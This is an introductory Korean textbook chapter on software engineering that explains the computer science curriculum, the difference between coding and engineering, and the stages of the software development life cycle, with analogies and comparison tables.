# 📖 소프트웨어 엔지니어링 올인원 (Software Engineering All-in-One)

> 컴퓨터 기초 원리부터 최신 클라우드·인공지능 아키텍처까지, 단 1권으로 완성하는 개발자 필독서

---

## 📑 전체 목차 (Table of Contents)

- **PART 01**: [01_소프트웨어_개발.md](01_소프트웨어_개발.md)
- **PART 02**: [02_소프트웨어의_종류와_특징.md](02_소프트웨어의_종류와_특징.md)
- **PART 03**: [03_개발_언어_및_프레임워크.md](03_개발_언어_및_프레임워크.md)
- **PART 04**: [04_개발_필수_지식.md](04_개발_필수_지식.md)
- **PART 05**: [05_소프트웨어_공학.md](05_소프트웨어_공학.md)
- **PART 06**: [06_컴퓨터_구조와_운영체제.md](06_컴퓨터_구조와_운영체제.md)
- **PART 07**: [07_데이터베이스_기술.md](07_데이터베이스_기술.md)
- **PART 08**: [08_네트워크_기술.md](08_네트워크_기술.md)
- **PART 09**: [09_아키텍처.md](09_아키텍처.md)
- **PART 10**: [10_클라우드_빅데이터_인공지능.md](10_클라우드_빅데이터_인공지능.md)

---


---

# PART 01 소프트웨어 개발

> *"컴퓨터 과학은 컴퓨터에 관한 학문이 아니다. 그것은 마치 천문학이 망원경에 관한 학문이 아닌 것과 같다."*  
> — 에츠허르 데이크스트라 (Edsger W. Dijkstra)

---

## 프롤로그: 소프트웨어라는 새로운 우주로 들어서는 당신에게

스마트폰 화면을 가볍게 터치해 배달 음식을 주문하고, 전 세계 수억 명과 실시간으로 대화를 나누며, 인공지능이 몇 초 만에 복잡한 보고서를 작성해 주는 세상. 오늘날 인류 문명의 거의 모든 영역은 **소프트웨어(Software)**라는 보이지 않는 거대한 지적 구조물 위에서 구동되고 있습니다.

하지만 화려한 기술의 이면에서 실제로 소프트웨어를 만들어내는 '개발'이라는 행위는 여전히 많은 사람들에게 검은 바탕화면 위를 빠르게 지나가는 영문 코드, 즉 일종의 현대판 마법처럼 여겨지곤 합니다. 

- "컴퓨터 공학에서는 대체 무엇을 배우길래 이런 프로그램을 만들 수 있을까?"
- "코딩을 잘한다는 것과 소프트웨어를 훌륭하게 개발한다는 것은 어떤 차이가 있을까?"
- "한 편의 소프트웨어는 어떤 질서와 과정을 거쳐 세상에 태어나는 것일까?"
- "어떤 사람이 개발이라는 길에 어울리며, AI가 코드를 쏟아내는 이 시대에 인간 개발자는 어떤 가치를 지녀야 할까?"

이 책의 첫 관문인 **PART 01**에서는 이러한 근원적인 물음들에 대해 가장 본질적이고 명쾌한 해답을 드리고자 합니다. 표면적인 문법 습득을 넘어, 컴퓨터가 일하는 원리와 소프트웨어 엔지니어링의 본질을 꿰뚫어 보는 지적 여정을 지금 시작합니다.

---

## 01 컴퓨터 전공자들은 어떤 것들을 배우나요?

> 컴퓨터공학(Computer Science)은 단순히 프로그래밍 언어의 문법을 외우는 학문이 아닙니다.  
> 인간의 복잡한 사고체계를 '물리적 기계'가 이해하고 처리할 수 있는 수학적·공학적 논리로 번역하고 제어하는 종합 시스템 학문입니다.



---

### 1. 개념 이해: CS 커리큘럼의 층위와 체계

컴퓨터공학 전공의 교육과정은 모래 위에 세운 성이 무너지지 않도록, 철저하게 **하부 하드웨어(물리 계층)부터 상부 애플리케이션(추상화 계층)**까지 촘촘히 층위를 쌓아 올리는 구조로 설계되어 있습니다.

#### (1) 컴퓨터 과학의 4대 기둥 (Core Pillars)

전 세계 유수의 공과대학 커리큘럼에서 가장 중요하게 다루는 4대 필수 과목은 다음과 같습니다.

1. **자료구조와 알고리즘 (Data Structures & Algorithms)**
   - **학습 목적**: "주어진 문제를 최소한의 자원(시간 및 메모리)으로 완벽하게 풀어내는 최적의 논리를 구성한다."
   - 배열, 연결 리스트, 스택, 큐, 트리, 그래프 등 데이터를 메모리에 어떤 구조로 배치할 것인가(자료구조)를 배우고, 이를 정렬·탐색·변환하는 효율적인 단계별 절차(알고리즘)를 공부합니다. 
   - 시간 복잡도(Big-O 표기법)를 통해 내가 짠 코드가 데이터가 1억 개로 늘어났을 때 1초 만에 끝날지, 100년이 걸릴지 사전에 수학적으로 예측하는 안목을 기릅니다.

2. **컴퓨터 구조 (Computer Architecture)**
   - **학습 목적**: "우리가 작성한 고수준 코드가 실리콘 반도체 칩(하드웨어)에서 실제로 어떻게 전기 신호로 구동되는지 이해한다."
   - 폰 노이만 구조, CPU의 산술논리연산장치(ALU), 제어장치(Control Unit), 레지스터(Register), 캐시 메모리(L1/L2/L3), 버스(Bus)의 작동 방식을 파헤칩니다.
   - 고수준 언어(C, Java, Python 등)가 어셈블리어(Assembly)와 바이너리 기계어(0과 1)로 변환된 후 명령어 파이프라인(Instruction Pipelining)을 통해 한 클록(Clock)마다 처리되는 메커니즘을 배웁니다.

3. **운영체제 (Operating Systems)**
   - **학습 목적**: "한정된 하드웨어 자원을 수많은 응용 프로그램에게 공정하고 효율적으로 분배하는 중앙 지휘관의 원리를 터득한다."
   - CPU는 하나인데 어떻게 유튜브를 보며 카카오톡 메시지를 입력할 수 있을까요? 운영체제는 '프로세스(Process)'와 '스레드(Thread)', 'CPU 스케줄링', '가상 메모리(Paging/Segmentation)', '동기화와 교착 상태(Deadlock)'를 통해 하드웨어 자원을 가상화하고 보호합니다.
   - 개발자가 시스템 콜(System Call)을 통해 하드웨어와 안전하게 상호작용하는 근본 인터페이스를 학습합니다.

4. **컴퓨터 네트워크 (Computer Networks)**
   - **학습 목적**: "물리적으로 격리된 수십억 대의 컴퓨터가 단 하나의 에러 없이 정보를 주고받는 전 지구적 통신 규칙을 규명한다."
   - 물리적 케이블선부터 웹 브라우저까지의 흐름을 정의한 **OSI 7계층 모델**과 **TCP/IP 4계층 프로토콜**을 학습합니다.
   - 패킷 교환(Packet Switching), 라우팅(Routing), 데이터 유실을 방지하고 순서를 보장하는 TCP의 3-Way Handshake 및 혼잡 제어(Congestion Control), 그리고 현대 웹의 근간인 HTTP, DNS, TLS/SSL의 암호화 메커니즘을 심도 있게 다룹니다.

---

#### (2) 기반 학문과 응용 및 실무 과목

4대 과목 외에도 견고한 엔지니어로 성장하기 위해 반드시 거치는 과목들이 존재합니다.

- **컴퓨터 수학 (이산수학, 선형대수, 확률과 통계)**: 컴퓨터는 연속적인 실수가 아닌 0과 1로 끊어지는 '이산(Discrete)' 세계입니다. 명제 논리, 집합론, 그래프 이론, 관계 연산은 데이터베이스와 알고리즘의 기초가 되며, 선형대수(행렬, 벡터)와 확률통계는 오늘날 머신러닝/딥러닝과 3D 그래픽스의 절대적인 수학적 뼈대입니다.
- **데이터베이스 (Database Systems)**: 애플리케이션이 종료되어도 데이터가 안전하게 영속(Persistence)되도록 설계하는 방법론입니다. 관계형 데이터 모델, SQL 문법, 데이터 무결성 보장을 위한 ACID 트랜잭션, B-Tree 인덱싱, 정규화(Normalization) 및 분산 DB 환경을 배웁니다.
- **소프트웨어 공학 (Software Engineering)**: 혼자 재미로 짜는 장난감 코드가 아니라, 수십·수백 명의 엔지니어가 수년간 유지보수하는 대규모 시스템을 결함 없이 구축하는 방법론입니다. 객체지향 설계 원칙(SOLID), 디자인 패턴, 단위/통합 테스팅, Git 형상관리, 지속적 통합 및 배포(CI/CD)를 다룹니다.
- **컴파일러 및 프로그래밍 언어론 (Compilers & Programming Languages)**: 사람이 읽을 수 있는 텍스트 형태의 소스 코드가 어떻게 어휘 분석(Lexical Analysis), 구문 분석(Parsing), 의미 분석을 거쳐 추상 구문 트리(AST)를 형성하고 궁극적으로 기계어로 최적화되는지를 배웁니다.

---

### 2. 현실 비유 및 실무 예시: "미슐랭 3스타 레스토랑으로 이해하는 CS 전공"

컴퓨터의 작동 구조를 대형 유명 레스토랑의 운영에 빗대어 보면, 전공 과목들의 유기적 관계가 한눈에 들어옵니다.



- **컴퓨터 구조**: 주방의 물리적 하드웨어 배치입니다. 초고속으로 손을 놀리는 주방장(CPU 코어), 주방장의 손 바로 옆에 놓인 작은 양념통들(레지스터), 그리고 바로 앞 도마(캐시 메모리)의 구조를 결정합니다.
- **자료구조**: 도마 위에 식재료를 어떤 용기에 담아둘 것인가의 문제입니다. 바로 꺼내 쓰기 좋게 1열로 나열된 칸막이 상자(배열), 재료끼리 실로 묶여 있어 줄줄이 꺼내는 구조(연결 리스트), 나중에 넣은 고명을 먼저 얹는 구조(스택)를 연구합니다.
- **알고리즘**: 복잡한 주문을 가장 빠르고 적은 화구를 써서 완벽한 코스 요리로 완성해 내는 '궁극의 요리 레시피'입니다.
- **운영체제**: 레스토랑의 **총지배인(Manager)**입니다. 수십 개의 테이블에서 동시에 쏟아지는 주문(멀티 프로세스)을 보고, 어느 화구를 누구에게 먼저 배정할지(CPU 스케줄링), 도마 공간이 부족하면 덜 쓰는 재료를 잠시 창고로 뺄지(가상 메모리 스와핑), 두 요리사가 같은 칼을 잡으려고 싸우지 않게 할지(동기화 및 데드락 방지)를 조율합니다.
- **컴퓨터 네트워크**: 전국 각지의 산지에서 신선한 식자재를 주문받고, 완성된 음식을 고객의 집까지 안전하게 배송하는 **물류 도로망 및 배송 규약(택배 송장 규격, 배송 확인 서명)**입니다.
- **데이터베이스**: 레스토랑 지하에 위치한 **철통 보안의 식자재 냉동창고와 장부**입니다. 정전이 일어나도 재고 수량이 한 치의 오차 없이 기록되어 있어야 합니다(트랜잭션 ACID).

> [!NOTE]
> **실무 연계 질문: "전공 지식은 실무에서 언제 쓰이나요?"**  
> 평소 프레임워크(Spring, React, Django 등)로 간단한 웹페이지를 만들 때는 CS 전공 지식이 없어도 코드를 완성할 수 있습니다.  
> 하지만 **서비스 사용자가 수십만 명으로 폭증할 때, 원인을 알 수 없는 메모리 누수(Memory Leak)가 발생할 때, 데이터베이스 쿼리가 병목을 일으킬 때, 서버 간 네트워크 지연이 심해질 때** 문제를 근본적으로 분석하고 해결할 수 있는 엔지니어는 오직 하부 컴퓨터의 원리를 꿰뚫고 있는 사람뿐입니다.

---

### 3. 상세 비교표: CS 핵심 과목 한눈에 보기

| 교과목 | 핵심 연구 질문 | 다루는 핵심 개념 | 이것을 모르면 실무에서 겪는 참사 |
| :--- | :--- | :--- | :--- |
| **자료구조 & 알고리즘** | *어떻게 하면 가장 빠르고 가볍게 처리할까?* | Big-O, 해시 테이블, B-Tree, 정렬, 최단 경로, 동적 계획법 | 데이터가 조금만 많아져도 서버 CPU 점유율이 100%를 치며 화면이 멈춤 |
| **컴퓨터 구조** | *기계(CPU/메모리)는 내부에서 어떻게 일하는가?* | ALU, 파이프라인, 캐시 적중률(Cache Hit), 바이트 오더링 | 캐시 미스(Cache Miss)가 대량 발생하는 비효율적 메모리 접근 코드를 양산함 |
| **운영체제** | *한정된 자원을 어떻게 안전하고 공평하게 나눌까?* | 프로세스 vs 스레드, 가상 메모리, 컨텍스트 스위칭, Mutex | 멀티스레드 환경에서 레이스 컨디션(Race Condition)으로 데이터가 꼬이거나 데드락 발생 |
| **컴퓨터 네트워크** | *멀리 떨어진 기계와 어떻게 신뢰성 있게 대화할까?* | TCP/IP, 핸드셰이크, 패킷 손실 복구, DNS, HTTP/3 | 통신 지연의 원인을 찾지 못하고 불필요한 재요청으로 네트워크 대역폭을 낭비함 |
| **데이터베이스** | *데이터의 무결성과 안전한 영속성을 어떻게 지킬까?* | ACID, 트랜잭션 격리 수준, B+Tree 인덱스, 정규화 | 결제 도중 시스템이 뻗었을 때 고객 돈은 빠져나갔는데 주문서는 증발하는 사고 발생 |
| **소프트웨어 공학** | *팀과 함께 10년 가는 시스템을 어떻게 지을까?* | SOLID 원칙, 디자인 패턴, 단위 테스트, CI/CD, 리팩터링 | 코드 한 줄 고쳤더니 전혀 상관없는 5군데 기능이 터지는 '스파게티 코드' 양산 |

---

### 4. 핵심 요약 (Summary Checklist)

- [x] 컴퓨터공학은 코드 문법 학습이 아니라 **컴퓨터의 동작 메커니즘과 계산 이론을 탐구하는 학문**입니다.
- [x] **4대 핵심 과목(자료구조/알고리즘, 컴퓨터구조, 운영체제, 네트워크)**은 하드웨어와 소프트웨어를 잇는 단단한 다리 역할을 합니다.
- [x] 수학적 기초(이산수학, 선형대수)와 응용 기술(데이터베이스, 소프트웨어 공학)이 결합될 때, 대규모 트래픽을 견디는 고성능 소프트웨어를 안정적으로 설계할 수 있습니다.

---

## 02 소프트웨어를 개발한다는 것은 무엇입니까?

> "프로그래밍은 컴퓨터에게 무엇을 해야 할지 명령하는 기술이지만,  
> 소프트웨어 엔지니어링은 인류의 모호한 현실 문제를 컴퓨터의 엄밀한 논리로 풀어내어  
> 지속 가능한 가치를 창출하는 고도의 문제 해결 예술입니다."

---

### 1. 개념 이해: 단순 코딩(Coding) vs 소프트웨어 엔지니어링(Software Engineering)

많은 입문자들이 '코딩(Coding)'과 '소프트웨어 개발(Software Development/Engineering)'을 같은 의미로 혼용합니다. 그러나 두 행위 사이에는 명확하고 거대한 질적 차이가 존재합니다.



#### (1) 코딩이란 무엇인가?
코딩은 특정 프로그래밍 언어의 문법(Syntax) 규칙에 맞추어 컴퓨터가 실행할 명령문을 텍스트로 타이핑하는 **기능적 실행 단계**입니다. 레고 블록에 비유하자면, 주어진 설명서대로 몇 개의 블록을 결합해 자동차 한 대를 조립하는 행위와 같습니다. 여기서는 당장 프로그램이 에러 없이 실행되는 것(It works)이 1차적 목표입니다.

#### (2) 소프트웨어 엔지니어링이란 무엇인가?
소프트웨어 엔지니어링은 **비즈니스 환경의 요구사항과 제약 조건 속에서, 수많은 사람들과 함께, 시간의 흐름(소프트웨어의 생애주기)을 견뎌낼 수 있는 제품을 체계적으로 설계·구현·운영하는 공학적 훈련**입니다.
- 구글의 엔지니어링 디렉터 타이터스 윈터스(Titus Winters)는 책 《구글 엔지니어는 이렇게 일한다》에서 소프트웨어 엔지니어링을 한 문장으로 정의했습니다:  
  > **"소프트웨어 엔지니어링이란, 시간에 흐름에 따른 수정 가능성과 유지보수성이 더해진 프로그래밍이다."**

만약 오늘 작성한 코드가 내일 비즈니스 규칙이 바뀌었을 때 완전히 갈아엎어져야 하거나, 동료 개발자가 읽고 해석하는 데 3일이 걸린다면, 그것은 '동작하는 코드'일 수는 있어도 '성공적인 소프트웨어'는 아닙니다.

---

### 2. 비즈니스 문제 해결로서의 소프트웨어

실무 세계에서 소프트웨어 개발은 자기만족적인 기술적 유희가 아닙니다. **"어떤 비즈니스 문제를, 어떤 가치로 치환할 것인가?"**에 대한 대답입니다.

- **토스(Toss)**의 본질: 복잡한 공인인증서와 보안 프로그램을 거쳐야 했던 금융 송금의 극심한 사용자 고통(Pain Point)을 '전화번호와 지문 하나로 3초 만에 송금'이라는 비즈니스 해결책으로 치환한 소프트웨어입니다.
- **쿠팡(Coupang)**의 본질: 고객이 오늘 밤 자정에 주문한 생수를 내일 아침 7시 문 앞에 정확히 배송하기 위해, 수천만 개의 재고 위치와 물류 트럭 경로를 분초 단위로 최적화하는 거대한 알고리즘 시스템입니다.

결국 개발자가 작성하는 모든 함수와 조건문은 고객의 시간을 아껴주거나, 기업의 비용을 줄여주거나, 이전에 없던 새로운 효용을 만들어내기 위해 존재합니다.

---

### 3. 요구사항을 컴퓨터가 이해하는 논리로 변환하는 과정

인간의 생각은 대단히 모호하고, 생략되어 있으며, 맥락(Context)에 의존합니다. 반면 컴퓨터는 융통성이 전혀 없는 극단적인 결벽증 환자와 같습니다. 단 0.0001%의 모호함도 허용하지 않으며, 지정된 명령만을 곧이곧대로 수행합니다.

따라서 소프트웨어 개발의 핵심은 **"모호한 인간의 언어를 한 치의 오차도 없는 엄밀한 논리 구조로 탈바꿈시키는 번역 작업"**입니다.

#### 현실 세계의 모호한 요구사항:
> *"사용자가 상품을 구매하고 결제할 수 있게 해주세요. 돈을 내면 주문이 완료되어야 합니다."*

인간에게는 너무나 자연스러운 이 두 줄의 문장을 컴퓨터 세상의 논리로 옮기려면 다음과 같은 수십 가지의 상태(State)와 예외 조건(Exception)을 정의해야 합니다.



> [!IMPORTANT]
> **컴퓨터적 사고(Computational Thinking)의 본질**  
> 개발자는 "행복 경로(Happy Path, 모든 것이 계획대로 잘 풀리는 경로)"만 생각해서는 안 됩니다.  
> 0.1%의 확률로 발생하는 네트워크 단절, 데이터베이스 락, 결제 서버 지연, 잔액 부족, 동시성 충돌 등의 **엣지 케이스(Edge Case)**를 집요하게 상상하고, 그 모든 순간에 시스템이 우아하게 대처할 수 있도록 논리적 방망이를 놓아주는 사람이 바로 개발자입니다.

---

### 4. 상세 비교표: '취미 코더' vs '프로페셔널 소프트웨어 엔지니어'

| 비교 항목 | 아마추어 / 취미 코더 | 프로페셔널 소프트웨어 엔지니어 |
| :--- | :--- | :--- |
| **관심의 중심** | "어떻게든 내 화면에서 돌아가게 만드는 것" | "시간이 흘러도 안전하게 동작하고 쉽게 변경할 수 있는 구조" |
| **코드의 독자** | 컴퓨터 (기계만 이해하면 그만) | 동료 인간 개발자 (나중에 이 코드를 유지보수할 미래의 동료) |
| **에러를 대하는 태도** | 에러가 안 뜨면 끝났다며 안도함 | "어떤 극단적인 상황에서 이 코드가 터질까?"를 고민하며 테스트 코드를 작성함 |
| **도구의 사용** | 문법과 라이브러리를 가져다 붙여넣음 | 라이브러리의 내부 원리와 라이선스, 성능 한계를 분석하고 채택함 |
| **목표 지향점** | 구현된 기능(Feature) 자체 | 비즈니스 임팩트(고객 가치, 비용 절감, 운영 안정성) |

---

### 5. 핵심 요약 (Summary Checklist)

- [x] 코딩은 문법을 작성하는 수단이며, **소프트웨어 개발은 지속 가능한 가치를 창출하는 종합 공학**입니다.
- [x] 개발의 출발점은 언제나 **현실 세계의 비즈니스 문제와 사용자의 결핍**입니다.
- [x] 인간의 모호한 의도를 컴퓨터가 오해 없이 실행할 수 있도록 **모든 분기점과 예외를 완벽한 상태 머신(State Machine)으로 변환**하는 것이 개발자의 핵심 임무입니다.

---

## 03 소프트웨어는 어떻게 개발될까요?

> 소프트웨어는 한 번 뚝딱 만들어지는 조각상이 아닙니다.  
> 기획부터 폐기까지 끊임없이 진화하고 피드백을 수용하며 살아 움직이는 **유기체적인 생명주기(Lifecycle)**를 갖습니다.

---

### 1. 개념 이해: 소프트웨어 개발 생명주기 (SDLC, Software Development Life Cycle)

현대 소프트웨어 개발은 주먹구구식으로 이루어지지 않습니다. 실패 확률을 줄이고 품질을 극대화하기 위해 산업계가 수십 년간 다듬어온 체계적인 단계가 존재합니다. 이를 **소프트웨어 개발 생명주기(SDLC)**라고 부릅니다.



---

### 2. SDLC 7단계 상세 분석: 단계별 역할과 산출물

소프트웨어가 탄생하여 사용자에게 도달하기까지 거치는 7가지 핵심 단계와 각 단계의 주인공, 산출물을 정리합니다.

#### 1단계: 기획 (Planning / Ideation)
- **핵심 목표**: "우리는 무엇을 왜 만들어야 하는가? 비즈니스 타당성과 시장 기회가 있는가?"
- **주요 역할**: 프로덕트 매니저(PM), 프로덕트 오너(PO), 사업 기획자
- **활동**: 시장 조사, 사용자 인터뷰, 경쟁사 분석, 비즈니스 지표(KPI, OKR) 설정, 로드맵 수립
- **대표 산출물**: **PRD (Product Requirement Document, 제품 기획서)**, 비즈니스 모델 캔버스

#### 2단계: 요구사항 분석 (Requirements Analysis)
- **핵심 목표**: "제품이 반드시 갖추어야 할 기능적·비기능적 요구사항을 한 치의 오차 없이 명세화한다."
- **주요 역할**: PM, 시스템 분석가(SA), 테크 리드(Tech Lead)
- **활동**:
  - 기능 요구사항(Functional): "회원은 소셜 로그인을 할 수 있어야 한다", "장바구니에 최대 100개 품목을 담을 수 있다."
  - 비기능 요구사항(Non-Functional): "1초당 5,000건의 동시 접속을 처리해야 한다", "모든 비밀번호는 단방향 해시 암호화되어야 한다", "가용성(Availability) 99.99%를 충족해야 한다."
- **대표 산출물**: **SRS (Software Requirement Specification, 소프트웨어 요구사항 정의서)**, 유저 스토리(User Story)

#### 3단계: 시스템 & 소프트웨어 설계 (System Architecture & Software Design)
- **핵심 목표**: "실제 개발에 들어가기 전, 기술적 청사진(Architecture)과 사용자 경험(UI/UX)을 완벽히 설계한다."
- **주요 역할**: 소프트웨어 아키텍트, UI/UX 디자이너, 시니어 엔지니어
- **활동**:
  - 시스템 아키텍처: 모놀리식(Monolithic) vs 마이크로서비스(Microservices, MSA) 결정, 클라우드 인프라(AWS, GCP) 설계
  - 데이터 모델링: ERD(Entity Relationship Diagram)를 통한 테이블 스키마 및 관계 정의
  - API 명세: RESTful, GraphQL, gRPC 등 클라이언트-서버 간 통신 규격 정의
  - UI/UX 디자인: 피그마(Figma)를 통한 화면 와이어프레임 및 디자인 시스템 구축
- **대표 산출물**: **시스템 아키텍처 다이어그램, ERD, API 명세서(Swagger/OAS), Figma 디자인 프로토타입**

#### 4단계: 구현 (Implementation / Coding)
- **핵심 목표**: "설계도를 바탕으로 실제 실행 가능한 고품질의 소스 코드를 작성한다."
- **주요 역할**: 프론트엔드 개발자, 백엔드 개발자, 모바일 앱 개발자
- **활동**:
  - 프로그래밍 언어 및 프레임워크를 활용한 비즈니스 로직 작성
  - Git 브랜치 전략(Git-Flow, GitHub-Flow)을 기반으로 한 협업
  - 코드 리뷰(Pull Request Review): 동료의 코드를 검토하며 버그를 방지하고 코드 품질 상향 평준화
  - 단위 테스트(Unit Test) 코드 작성
- **대표 산출물**: **소스 코드 저장소(GitHub/GitLab Repository), 단위 테스트 코드**

#### 5단계: 테스트 및 품질 보증 (Testing & QA)
- **핵심 목표**: "시스템이 요구사항대로 동작하는지 검증하고, 결함(Bug)과 성능 문제를 사전에 색출한다."
- **주요 역할**: QA(Quality Assurance) 엔지니어, SDET(Software Development Engineer in Test), 보안 엔지니어
- **활동**:
  - 통합 테스트(Integration Test) 및 종단 간(E2E) 테스트 수행
  - 부하 및 성능 테스트(Load Testing): 수만 명이 동시 접속할 때 서버가 죽지 않는지 JMeter, k6 등으로 검증
  - 보안 취약점 점검: 모의 해킹, SQL 인젝션, XSS 방어 점검
- **대표 산출물**: **테스트 계획서(Test Plan), 테스트 케이스(Test Cases), 버그 리포트(Issue Tracker)**

#### 6단계: 배포 및 출시 (Deployment & CI/CD)
- **핵심 목표**: "검증된 소프트웨어를 실제 고객이 사용할 수 있는 프로덕션 서버 환경에 안전하게 출시한다."
- **주요 역할**: 데브옵스(DevOps) 엔지니어, SRE(Site Reliability Engineer)
- **활동**:
  - CI/CD 파이프라인(GitHub Actions, Jenkins, ArgoCD)을 통한 빌드·테스트·배포 자동화
  - 무중단 배포(Zero-Downtime Deployment): 롤링(Rolling), 블루/그린(Blue-Green), 카나리(Canary) 기법을 사용하여 사용자가 서비스를 이용하는 도중에도 중단 없이 업데이트
- **대표 산출물**: **도커 컨테이너 이미지(Docker Image), 쿠버네티스 매니페스트, 릴리즈 노트(Release Notes)**

#### 7단계: 운영 및 유지보수 (Maintenance & Evolution)
- **핵심 목표**: "24시간 365일 무장애 서비스를 제공하고, 사용자 피드백을 수집하여 제품을 지속적으로 진화시킨다."
- **주요 역할**: SRE, 서비스 운영팀, 전체 엔지니어링 팀
- **활동**:
  - 시스템 모니터링: 프로메테우스(Prometheus), 그라파나(Grafana), 데이터독(Datadog)으로 CPU, 메모리, 에러율 실시간 감시
  - 로깅 및 장애 대응: 센트리(Sentry), ELK 스택을 통한 에러 로그 수집 및 온콜(On-call) 핫픽스 대응
  - 기술 부채(Technical Debt) 청산 및 리팩터링
- **대표 산출물**: **장애 사후 분석 보고서(Post-mortem / RCA), 서비스 모니터링 대시보드**

---

### 3. 현실 비유: "건축(Building)과 소프트웨어 개발의 결정적 차이"

소프트웨어 개발을 흔히 '건축'에 비유하곤 합니다. 둘 다 기초 공사가 중요하고, 설계도(아키텍처)가 필요하며, 수많은 전문가가 협업한다는 점에서 매우 닮아 있습니다.

하지만 현대 소프트웨어 공학은 건축과 결정적으로 다른 한 가지 특성을 가집니다: **"소프트웨어는 물리적 법칙에 얽매이지 않으며, 극단적으로 변경이 용이(Soft)해야 한다"**는 점입니다.

